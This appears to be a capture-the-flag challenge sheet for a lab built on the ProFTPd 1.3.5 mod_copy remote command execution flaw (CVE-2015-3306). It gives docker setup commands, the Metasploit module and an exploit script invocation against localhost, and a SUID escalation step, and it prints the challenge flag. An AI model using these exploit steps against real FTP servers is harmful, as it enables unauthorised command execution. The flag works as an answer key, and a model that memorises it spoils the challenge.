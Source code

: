 Challenge 3 ProFTPd (Transfer) 21:21


This challenge is based on the ProFTPd 1.3.5 - (mod_copy) Remote Command Execution cve-2015-3306

The container source is here:
https://github.com/t0kx/exploit-CVE-2015-3306

docker build -t sploitftp .

docker run -d --rm -it -p 2121:21 -p 8080:80 sploitftp



Notes:
If using metasploit the path must be /var/www/html
use exploit/unix/ftp/proftpd_modcopy_exec



./exploit.py --host 127.0.0.1 --port 21 --path "/var/www/html/"

Find SUID binary /usr/bin/dog

in shell run /usr/bin/dog to print flag

Flag will be located in /root/flag
bsb17_da39a3ee5e6b4b0d3255bfef95601890afd80709
